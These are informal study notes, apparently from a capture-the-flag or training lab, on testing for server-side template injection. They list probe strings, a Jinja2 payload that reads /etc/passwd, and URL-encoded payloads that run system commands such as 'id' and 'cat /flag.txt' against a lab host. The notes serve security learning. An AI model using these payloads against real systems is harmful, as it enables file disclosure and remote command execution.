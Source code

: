 when we have an input field or an url using an input parameter like ?id= the nwe can test for SSTI using combinations like: 

{{7*'7'}}
${7*7}
{{7*7}}
...
...

and if they are evaluated as 49 we have an ssti
we also need to determin which sort of ssti we have

using ssti we can do a file read: 
```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

(you might need to url encode the + for the spaces)

and this can be used for command execution: 

api=http://truckapi.htb/?id%3D{{%2B['id']%2B|%2Bfilter('system')%2B}}

used this to get the flag in the skills assesment: 
api=http://truckapi.htb/?id%3D{{%2B['cat%2B%2Fflag.txt']%2B|%2Bfilter('system')%2B}}